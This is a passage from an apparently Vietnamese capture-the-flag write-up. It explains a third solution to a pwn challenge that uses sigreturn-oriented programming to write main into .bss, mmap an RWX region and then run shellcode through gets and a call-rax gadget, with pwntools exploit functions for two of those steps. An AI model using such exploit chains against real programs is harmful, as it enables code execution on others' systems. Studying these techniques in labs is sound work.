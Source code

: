 ```cs


p.interactive()
```

![flag](/assets/images/flagshellcode1.png)


### cách 3 : srop + mmap + shellcode 

- vì rảnh và lâu rồi không làm srop nên mình mất tầm 2 tiếng để giải quyết theo cách này =)))  , mình đã cố gắng không sử dụng các **gadget** và chỉ sử dụng mỗi **srop**

- trước hết vì ta không thể control được địa chỉ nào để khi **srop** nó sẽ quay về **main** 1 lần nữa , mình sẽ ghi **main** vào **bss** trước , ở đây ta cần tránh ghi đè vào các dữ liệu khác 

```python
def read_main():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = bss
    frame.rdx = 16
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    return payload
```

- rsp ở đây sẽ là con trỏ chứa địa chỉ main -> nó sẽ return về main , tiếp theo stack lúc này sẽ là **bss** và vì **PIE** tắt nên ta hoàn toàn có thể debug và biết được tiếp theo nó sẽ return về đâu 

- ở lần sử dụng **Sigreturn** tiếp theo mình sẽ setup **mmap** 1 địa chỉ với full quyền (rwx) , và rsp sẽ chuỗi rop giúp ta có thêm 1 lần **srop** nữa , lần **srop** kế tiếp sẽ là dùng **gets** , tại sao mình lại sử dụng **gets** ? vì khi đó sau khi **gets** xong thì dữ liệu sẽ được đặt ở **rax** , ta sẽ kết hợp với **call_rax** để thực thi shellcode ^^

đây là setup cho **mmap**

```python
def mmap():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)

    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = 0x9
    frame.rdi = 0x200000
    frame.rsi = 0x100000
    frame.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame.r10 = constants.MAP_ANONYMOUS | constants.MAP_PRIVATE | constants.MAP_FIXED
    frame.r8 = -1
    frame.rip = syscall_ret
    frame.rsp = 0x404898

    payload += bytes(frame)
    return payload
```
